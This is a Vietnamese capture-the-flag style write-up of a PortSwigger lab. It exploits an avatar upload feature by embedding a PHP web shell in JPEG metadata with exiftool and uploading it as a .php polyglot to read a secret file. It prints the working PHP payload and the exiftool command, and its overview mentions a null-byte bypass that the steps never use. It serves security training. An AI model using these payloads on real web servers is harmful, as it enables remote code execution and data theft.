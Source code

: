 # Write-up: Remote code execution via polyglot web shell upload

### Tổng quan
Khai thác lỗ hổng trong chức năng upload file avatar, bypass danh sách đen đuôi file bằng kỹ thuật obfuscation với ký tự null (`%00`) trong filename, upload web shell PHP, thực thi mã để đọc file `/home/carlos/secret`, và submit secret để hoàn thành lab.

### Mục tiêu
- Upload file polyglot chứa mã PHP, đọc nội dung file `/home/carlos/secret`, và submit secret.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exiftool

### Quy trình khai thác 
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập với tài khoản `wiener`:`peter`
- Truy cập chức năng upload avatar, upload file ảnh hợp lệ (ví dụ: avatar.png):
    - Xem ảnh tại `/files/avatars/avatar.png`:

- Thử upload file web shell exploit.php với nội dung:
    ```
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```
    - **Phản hồi**: Server từ chối với thông báo file không phải nội dung hình ảnh:
        ![denied](./image/denied.png)

2. **Khai thác (Exploitation)**
- Sử dụng `exiftool` để tạo file polyglot, nhúng mã PHP vào metadata của file ảnh:
    ```
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" avatar.jpg -o polyglot.php
    ```
- Upload file `polyglot.php`:
    - **Phản hồi**: File được upload thành công
        ![exif](./image/exif.png)
    - **Giải thích**: File `polyglot.php` có định dạng ảnh hợp lệ nhưng chứa mã PHP trong metadata, bypass kiểm tra nội dung hình ảnh.

- Truy cập file web shell:
    - Phản hồi trả về nội dung file `/home/carlos/secret`:
        `STARTOPpmU1RReHcYJMmjXQftvZsG9LFudaimEND`
        ![secret](./image/secret.png)
    - **Giải thích**: Server thực thi file `polyglot.php` như PHP, cho phép mã trong metadata chạy, dẫn đến lỗ hổng thực thi mã từ xa (RCE).

- Submit secret và hoàn thành lab
    ![solved](./image/solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng upload file bằng kỹ thuật polyglot, nhúng mã PHP vào metadata của ảnh.
- Nhận thức tầm quan trọng của việc kiểm tra nội dung file upload kỹ lưỡng và ngăn chặn thực thi mã trong file ảnh.

### Tài liệu tham khảo
- PortSwigger: File upload vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng upload file, sử dụng exiftool để tạo file polyglot, bypass kiểm tra nội dung hình ảnh, thực thi web shell PHP và đọc file bí mật. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*
